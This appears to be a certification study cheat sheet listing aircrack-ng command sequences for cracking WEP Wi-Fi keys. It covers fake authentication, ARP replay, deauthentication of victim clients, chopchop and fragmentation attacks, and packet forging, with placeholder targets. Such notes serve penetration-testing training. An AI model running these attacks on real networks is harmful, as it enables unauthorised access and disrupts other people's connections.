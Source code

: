 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Open authentication

#### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

#### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

#### Cracking clientless WEP network

##### KoreK chopchop attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -4 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

##### Fragmentation attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -5 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```
